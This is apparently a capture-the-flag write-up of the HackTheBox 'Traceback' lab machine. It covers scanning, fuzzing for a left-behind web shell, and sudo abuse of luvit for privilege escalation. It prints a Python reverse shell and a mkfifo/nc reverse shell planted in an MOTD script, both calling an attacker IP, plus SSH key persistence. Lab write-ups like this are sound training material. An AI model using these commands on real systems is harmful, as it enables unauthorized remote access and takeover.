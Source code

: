 ```yaml
---
layout: post
title: "HackTheBox - Traceback"
author: "joona"
---
```

![](/images/traceback/traceback.jpg)
Traceback is a Linux box where the initial access is achieved by finding a web shell left by the website defacer.
The privilege escalation path abuses Lua programming language scripting platform and write
access to a /etc/motd-file. Good stuff.

<br/>
## Nmap results
Only SSH and HTTP ports are open.

{% highlight plaintext %}
# Nmap 7.80 scan initiated Thu Apr 16 14:02:45 2020 as: nmap -A -p- -T4 -oA nmap/traceback 10.10.10.181
Nmap scan report for 10.10.10.181
Host is up (0.050s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=4/16%OT=22%CT=1%CU=35630%PV=Y%DS=2%DC=T%G=Y%TM=5E989DF
OS:0%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=108%TI=Z%CI=Z%II=I%TS=A)SEQ
OS:(SP=105%GCD=1%ISR=108%TI=Z%CI=Z%TS=A)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O
OS:3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=7120%W2=
OS:7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M54DNNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}


<br/>
## Website enumeration
![](/images/traceback/owned.jpg)

The website has been defaced by "Xh4H".
Inside the page source code there's a comment: <br/>
![](/images/traceback/owned2.jpg)

If we Google this phrase we get a [GitHub repository Xh4H/Web-Shells](https://github.com/Xh4H/Web-Shells) filled with different web shells.<br/>
I created a text file filled with all the names of the web shells and ran gobuster with it against the website.<br/>
`gobuster dir -u 10.10.10.181 -w webshells.txt`.

We get a hit for `/smevk.php`.<br/>
![](/images/traceback/smevk.jpg)

The default credentials for this are username: <b>admin</b> and password: <b>admin</b><br/>
![](/images/traceback/smevk2.jpg)

The web shell is running as user `webadmin`.

<br/>
## Privilege Escalation
Enumerating the <b>/home</b>-directory with the web shell we discover a file called `/home/webadmin/note.txt`:<br/>
{% highlight plaintext %}
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
{% endhighlight %}

<br/>
`sudo -l` tells us that we can run `/home/sysadmin/luvit` as <b>sysadmin</b>.
![](/images/traceback/sudo.jpg)

<br/>
Before taking a closer look, I setup a reverse shell to my own machine, so we don't have to use the web shell.
Setup a listener `nc -lvnp 6669`.<br/>

Run a python3 reverse shell:
{% highlight plaintext %}
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.16",6669));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
{% endhighlight %}

<br/>
[Luvit](http://luvit.io/blog/pure-luv.html) is a single binary that contains a Lua virtual machine and standard libraries. We can give it a
lua script to run and it runs it in the context of the system.

I created a very simple Lua script called `a.lua`:
{% highlight plaintext %}
os.execute("/bin/sh")
{% endhighlight %}

Upload this badboy to the /tmp-folder and run it:<br/>
`sudo -u sysadmin /home/sysadmin/luvit /tmp/a.lua`

![](/images/traceback/sysadmin.jpg)

Let's spawn a TTY shell to interact further with the system with:<br/>
{% highlight plaintext %}
python3 -c 'import pty; pty.spawn("/bin/sh")'
// Background the shell with Ctrl + Z
stty raw -echo
fg
{% endhighlight %}

We can now get the user flag from `/home/sysadmin`.

<br/>
## Root Access
Running `linpeas.sh` enumeration tool, it discovers a 99% sure privilege escalation vector from `/etc/update-motd.d/`.<br/>
We are able to modify the message of the day which is executed every time a user logs in.

![](/images/traceback/linpeas.jpg)

For this we can add our SSH key to the sysadmins `/home/sysadmin/.ssh/authorized_keys`-file so we can log in via SSH. Generate a key:<br/>
`ssh-keygen -t rsa`<br/>

Copy the id_rsa.pub and echo it to the authorized_keys:<br/>
`echo "long ass key" >> /home/sysadmin/.ssh/authorized_keys`

We can now add a reverse shell to the `/etc/update-motd.d/00-header`-file:<br/>
{% highlight plaintext %}
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.16 1335 >/tmp/f" >> /etc/update-motd.d/00-header
{% endhighlight %}

Setup a listener: `nc -lvnp 1335`.<br/>

SSH login to trigger the MOTD:<br/>
`ssh -i id_rsa sysadmin@10.10.10.181`<br/>

We get a root shell:<br/>
![](/images/traceback/rooted.jpg)

<br/>
If you have trouble getting a shell back, there's a script that resets
the motd-files every 30 second, so you have to be quick.
You can see the running processes e.g. with [pspy](https://github.com/DominicBreuker/pspy).


<br/>
Thank you for reading!
